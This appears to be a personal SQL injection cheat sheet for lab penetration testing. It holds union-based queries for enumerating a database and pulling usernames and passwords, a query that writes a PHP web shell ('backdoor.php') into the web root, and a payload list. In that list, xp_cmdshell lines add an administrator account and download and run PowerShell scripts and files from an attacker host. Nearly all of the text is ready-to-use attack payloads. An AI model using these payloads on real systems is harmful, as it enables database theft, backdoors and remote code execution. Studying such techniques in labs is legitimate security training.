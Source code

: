 SQL Injection



********************************// SQL INJECTION********************************************
# https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
# https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
# https://www.doyler.net/security-not-included/oracle-command-execution-sys-shell

*********************************LAB REFERENCE SQL INJECTION**********************************

#1. Column Number Enumeration:

http://10.11.0.22/debug.php?id=1 order by 1 
Increase order by until we receive an error.

#2. Extract further data using Union: 

http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

#3. Extracting data from Databases:

http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version

http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
 
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users

#4. From SQL Injection to Code Execution

http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/system32/drivers/etc/hosts')

http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

********************************OTHER SQL INJECTION COMMANDS********************************


' OR 1=1--
' OR 1=1--
' OR 1=1#
' OR 1=1)#
',null)#
',null)--
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
'EXEC master..xp_cmdshell 'net user /add kali 1234 && net localgroup administrators /add kali';--
'EXEC master..xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://<ATTACKER-IP>/shell.ps1')"--
'EXEC master..xp_cmdshell "certutil.exe -urlcache -split -f http://<ATTACKER-IP>/maliciousfile"--
'EXEC master..xp_cmdshell "powershell Start-Process c:\ftproot\shell.exe"--
',convert(int,db_name()))--
',convert(int,@@VERSION))--
' AND 0=1 UNION SELECT 1,2--
' AND 0=1 UNION SELECT null,null--
' AND 0=1 UNION SELECT @@VERSION,2--
' AND 0=1 UNION SELECT @@SERVERNAME,2--